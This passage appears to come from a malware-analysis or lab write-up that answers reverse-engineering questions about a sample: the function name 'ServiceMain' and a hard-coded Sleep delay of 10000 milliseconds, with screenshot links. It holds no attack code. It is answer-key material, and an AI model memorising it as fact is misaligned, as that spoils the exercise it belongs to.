

```
ServiceMain
```

### 13. Inside the previously named function, there are two calls to Sleep: one uses a variable argument and one uses a hard-coded delay. What is the value of the hard-coded delay (in milliseconds)?



```
10000
```
---
